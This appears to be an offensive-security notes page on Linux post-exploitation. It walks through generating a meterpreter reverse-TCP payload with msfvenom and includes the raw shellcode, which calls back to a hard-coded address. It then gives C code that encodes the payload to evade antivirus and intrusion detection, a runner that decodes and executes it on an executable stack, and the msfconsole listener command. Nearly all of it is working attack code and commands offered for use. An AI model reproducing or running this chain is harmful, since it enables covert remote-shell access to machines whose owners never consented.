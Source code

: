 ```yaml
---
title: Linux post-exploitation
tags:
  - breach
  - operations
  - linux
  - post
  - exploitation
  - bypass
  - antivirus
  - ids
  - ips
  - meterpreter
  - reverse
  - shellcode
---
```


Linux antivirus solutions aren't as robust as Windows, given that the market
share of Linux client machines is pretty small. Linux is primarily used for
servers and other network infrastructure. Regardless, we need to make sure we
take action to obfuscate our payloads so they don't get detected by host-based
**intrusion detection systems (IDS)**.

## Encoding payloads

The following discussion goes over using **xor-and-not-and-xor (XANAX)**
encoding for delivering **meterpreter** payloads. First, we'll generate a
`payload.c` file containing our meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=${LHOST} LPORT=${LPORT} -f c -o payload.c
```

We use the following `encoder.c` code to encode our meterpreter payload with a
four (4) byte XANAX key. We randomly generate this key, so don't use the same
one identified here:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef struct {
  unsigned char xor1;
  unsigned char add1;
  unsigned char xor2;
  unsigned char add2;
} xanax_keys;

static const xanax_keys keys = {.xor1 = 0xe,
                                .add1 = 0x75,
                                .xor2 = 0xbc,
                                .add2 = 0xc9};

static unsigned char buf[] =
    "\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
    "\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
    "\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
    "\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
    "\x20\xfb\xc0\xa8\x2d\xbe\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
    "\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
    "\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
    "\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
    "\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e\x5a\x0f\x05\x48\x85\xc0"
    "\x78\xed\xff\xe6";

void main() {
  unsigned int buf_len = (unsigned int)sizeof(buf);

  for (unsigned int i = 0; i < buf_len; i++) {
    unsigned char e = buf[i];

    e ^= keys.xor1;
    e += keys.add1;
    e = ~e;
    e += keys.add2;
    e ^= keys.xor2;

    printf("\\x%02x", e);
  }
}
```

We build `encoder.c` by invoking the following:

```bash
gcc encoder.c -o encoder.out
```

Executing `encoder.out` will print our encoded meterpreter payload to the
terminal. We create our `runner.c` code, which will decode the encoded payload
with the same XANAX key and execute the buffer on the stack:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef struct {
  unsigned char xor1;
  unsigned char add1;
  unsigned char xor2;
  unsigned char add2;
} xanax_keys;

static const xanax_keys keys = {.xor1 = 0xe,
                                .add1 = 0x75,
                                .xor2 = 0xbc,
                                .add2 = 0xc9};

void main() {
  unsigned char buf[] =
      "\xa8\xde\x53\xf0\x41\x00\x27\x89\xb1\x70\xc7\xac\xa8\x30\x53\x9b\xb8\x43"
      "\x53\xf6\x43\xee\xf4\xb1\x74\x39\x61\x48\x53\xf3\xb8\x40\x49\x53\x90\x41"
      "\x00\x53\xfb\xbe\x53\xf8\xbf\xee\xf4\xb1\x74\x39\x61\xa2\xb1\x06\xb1\x20"
      "\xfb\xf9\x99\xe2\x39\x11\x8c\x1f\x48\xb1\x70\xd7\x53\x89\x43\x53\x93\x41"
      "\xee\xf4\x40\xb1\x74\x39\x60\x94\xb0\xde\x30\x65\x81\x46\x53\x9a\x41\x53"
      "\xf9\x53\xf4\xb1\x70\xd6\xb1\xa8\xe7\xee\xf4\x40\x40\xbe\xb1\x74\x39\x60"
      "\x36\x53\x9d\x41\x53\xf8\xbe\xee\xf4\xbf\x53\x5f\x43\xee\xf4\xb1\x74\x39"
      "\x61\xcc\xde\xd7\xf9";

  unsigned int buf_len = (unsigned int)sizeof(buf);

  for (unsigned int i = 0; i < buf_len; i++) {
    unsigned char e = buf[i];

    e ^= keys.xor2;
    e -= keys.add2;
    e = ~e;
    e -= keys.add1;
    e ^= keys.xor1;

    buf[i] = e;
  }

  ((void (*)())buf)();
}
```

We compile the `runner.c` ELF, making sure the stack is executable and
statically linking it so it can execute on the target:

```bash
gcc runner.c -o runner.out -z execstack -static
```

We can listen for this payload by invoking the following:

```bash
msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST ${LHOST}; set LPORT ${LPORT}; exploit"
```
